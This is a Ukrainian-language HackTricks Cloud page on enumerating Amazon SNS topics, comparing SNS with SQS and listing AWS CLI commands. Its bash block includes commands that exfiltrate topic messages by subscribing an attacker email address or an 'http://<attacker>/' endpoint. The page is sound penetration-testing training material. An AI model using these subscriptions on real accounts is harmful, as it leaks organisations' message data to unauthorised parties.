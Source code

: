 # AWS - SNS Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SNS

Amazon Simple Notification Service (Amazon SNS) описується як **повністю керована служба обміну повідомленнями**. Вона підтримує як **додаток-додатку** (A2A), так і **додаток-людина** (A2P) типи комунікації.

Ключові особливості для A2A комунікації включають **механізми публікації/підписки (pub/sub)**. Ці механізми вводять **теми**, які є критично важливими для забезпечення високої пропускної здатності, **пуш-орієнтованого, багато до багатьох обміну повідомленнями**. Ця функція є надзвичайно вигідною в сценаріях, що включають розподілені системи, мікросервіси та архітектури безсерверних подій. Використовуючи ці теми, системи видавців можуть ефективно розподіляти повідомлення на **широкий спектр систем підписників**, полегшуючи патерн обміну повідомленнями fanout.

### **Різниця з SQS**

**SQS** є **черговою** службою, яка дозволяє точкову комунікацію, забезпечуючи обробку повідомлень **одиничним споживачем**. Вона пропонує **доставку принаймні один раз**, підтримує стандартні та FIFO черги, а також дозволяє зберігання повідомлень для повторних спроб і затриманої обробки.\
З іншого боку, **SNS** є **службою на основі публікації/підписки**, що дозволяє **один до багатьох** комунікацію, транслюючи повідомлення **багатьом підписникам** одночасно. Вона підтримує **різні кінцеві точки підписки, такі як електронна пошта, SMS, функції Lambda та HTTP/HTTPS**, і надає механізми фільтрації для цілеспрямованої доставки повідомлень.\
Хоча обидві служби дозволяють розділення між компонентами в розподілених системах, SQS зосереджується на черговій комунікації, а SNS підкреслює подієво-орієнтовані, fan-out патерни комунікації.

### **Enumeration**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
Зверніть увагу, що якщо **тема є типу FIFO**, можуть бути використані лише підписники, які використовують протокол **SQS** (HTTP або HTTPS не можуть бути використані).

Також, навіть якщо `--topic-arn` містить регіон, переконайтеся, що ви вказали правильний регіон у **`--region`**, інакше ви отримаєте помилку, яка виглядає так, ніби ви не маєте доступу, але проблема в регіоні.
{% endhint %}

#### Неавтентифікований доступ

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

#### Підвищення привілеїв

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

#### Після експлуатації

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

#### Постійність

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

## Посилання

* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
